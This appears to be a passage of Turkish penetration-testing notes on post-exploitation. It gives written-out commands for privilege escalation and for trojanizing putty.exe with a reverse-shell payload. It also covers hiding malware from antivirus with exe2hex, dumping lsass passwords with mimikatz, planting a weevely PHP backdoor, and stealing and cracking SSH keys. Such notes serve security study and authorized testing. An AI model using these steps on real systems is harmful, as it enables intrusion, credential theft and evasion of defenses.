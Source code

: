 ## 09. POST EXPLOİTATİON (İSTİSMAR SONRASI):

### YETKİ YÜKSELTME (WINDOWS)
    systeminfo hotfix dosyalarına bak. Güncelleme almayan yamayı bul. Sisteme sok.Yetki yükselt.
    
    Güncellemelerin Kontrolü : wmic qfe get Description, HotFixID, InstalledOn
   
    Yüklü uygulamaların kontrolü :  “wmic product get name, version”
   
    Bilinmeyen Path Yollarını Kontrol Etme : accessChk.exe aracıyla 
    
    Msi paketinin yüklenmesinin kontrolü : “reg query 
    
    HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer”  -> PS ekranına komutu girin. Değer 1 olarak ayarlıysa zafiyet mevcuttur. Zafiyeti tetiklemek için msi paketi üretmek gerekir.
    Import-Module .\powerup.ps1
    Write-UserAddMSI ile kullanıcı oluştur.

### YETKİ YÜKSELTME (LINUX)
    ***Kernel kontrol et. “uname -a” ile kernel sürümüne bak. Exploit ara.
    “searchsploit” den ara

    *** sudo –l komutu ile sudoers yetkilerini kontrol et.

### Shellter :
	Oluşturulan zararlıyı başka dosyayla birleştirme aracı.
    Windows örneği : 
	a -> Enter -> no -> putty.exe -> y
	7 payload var. l seçersek listeden c seçersek kendi payloadımız.
	l -> 1 -> ip adresi -> port -> 

### Exe2Hex :
    exe dosyalarını binary kodlarına çeviren araç. Bu sayede virüs programları bulamıyor.
    Örnek : Önce payload oluşturuyoruz. (SET programı ile)
    1 -> 4 creat payload -> 2 -> local ip gir -> port gir -> trojen oluştu. (payload.exe)
    “exe2hex -x payload.exe -p payload.cmd”
    Oluşturulan payload.cmd dosyasını metin belgesi ile aç. En sonuna hemen çalışması için start payload.exe gir .Kaydet.
    Hedef pc’de çalıştığında önce exe haline çevirir. En son yazdığımız komutla o exe çalışır.

### Mimikatz :
    Windows üzerinde parola elde etmeye yarayan araç.
    1.	Görev yöneticisinden lsass.exe ‘yi dump al.
    2.	Dinleme moduna al;	
    mimikatz # privilege::debug
    3.	Dump dosyasını mimikatz klasörüne at yada yolunu belirt.
    mimikatz # sekurlsa::minidump lsass.dmp
    4.	mimikatz # sekurlsa::logonPasswords full

### Powersploit :
	Windows üzerinde powershell ile çalışır.

### Proxy Chains :
	Ağ testlerinde gizlilik sağlayan bir araç. (Tor ağı üzerinden). Hız olarak biraz yavaş.

### 4nonimizer :
	Ağ üzerinde gizlilik sağlar.

	https://github.com/Hackplayers/4nonimizer.git githubdan indir.
	
	./4nonimizer install -> Yükle
	
	./4nonimizer start -> Programı başlat. ip adresini değiştirir.Vpn mantığı. Durdurmak için stop komutunu kullan

### Weevely :
	Php sunucularda virüs programına ve güvenlik duvarlarına yakalanmayan troje oluşturmaya yarar.
	“weevely generate 12345 /root/...  .php” (Arka kapı oluşturma işlemi)
    “weevely hedefe_atmış_olduğun_dosya_yolu 12345”

### SSH Private Key
    Sisteme girdikten sonra yetkili kullanıcının SSH Private Keyini /home/yetkili_kullanıcı/.ssh dizini altından okuyorsak locale alıp id_rsa.txt olarak kaydet.
    
    python3 /usr/share/john/ssh2john.py id_rsa.txt > decrypted.txt   (john anlayacağı şekle dönüştürür)
    
    john --wordlist=/usr/share/wordlists/rockyou.txt decrypted.txt (şifreyi kırar)
    
    ssh yetkili_kullanıcı@hedef_ip -i id_rsa.txt  (bağlan)  (yetki hatası verirse 0400 olarak chmod ver)
